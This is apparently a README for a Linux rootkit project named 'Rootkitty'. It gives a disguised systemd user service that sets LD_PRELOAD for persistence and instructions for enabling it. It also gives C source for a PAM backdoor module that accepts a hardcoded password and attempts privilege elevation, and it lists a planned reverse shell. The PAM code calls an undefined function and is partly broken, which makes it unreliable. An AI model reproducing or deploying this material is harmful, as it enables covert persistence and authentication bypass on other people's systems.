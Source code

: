 # Rootkitty
## Persistence Using SystemD services

place file here:
`~/.config/systemd/user/<your_filename>.service`

should look like this:
```rootkatz.service
[Unit]
Description= something, totally not a rootkit
[Service]
ExecStart=/usr/bin/bash -c 'export LD_PRELOAD=<path_to_shared_lib>'
Restart=always
RestartSec=60
[Install]
WantedBy=default.target
```

enable service like so:
`systemctl --user enable rootkatz.service`

this depends on the user being logged in.
to do this at boot (for servers, since they dont have users logged in) root must run:
`systemctl --enable-linger <username>` 
obviously since we dont have root access we cannot use this but 
we can check by `ls /var/lib/systemd/linger/` 
if lingering is available there is a empty file with username on it 

## cool stuff for libraries
`static void __attribute__((constructor)) function(args)` 
gets loaded and executed before evrythig

## PAM Backdoor 
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <string.h>
#define PAM_EXTERN extern

int elevation(){
    uid_t UID = getuid();
    gid_t GID = getgid();

    if (seteuid(0) ==- 1){
        return -1;
    }
    if (setegid(0)==-1){
        seteuid(UID);
        return -1;
    }
    return 0;
}

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_authenticate)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_authenticate = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    
    const char* passwd;
    pam_get_item(pamh, PAM_AUTHTOK, (const void**)&passwd);

    if(passwd != NULL && strcmp(passwd, "backdoorpassword") == 0) {
        return PAM_SUCCESS;
    }

    return og_pam_sm_authenticate(pamh, flags, argc, argv);
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_setcred)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_setcred = dlsym(RTLD_NEXT, "pam_sm_setcred");
    if (is_backdoor_used(pamh)){
        if(elevation()==0){
return PAM_SUCCESS;
        }
    }
    return og_pam_sm_setcred(pamh, flags, argc, argv);
}
// on exit
int drop_privileges(uid_t original_uid, gid_t original_gid) {
    if (setegid(original_gid)==-1){
        return -1;
    }
  if (seteuid(original_uid) == -1) {
        return -1;
    }
    return 0;
}
```

## more ideas
- persistence over systemd process reverse shell ipv4 and v6 
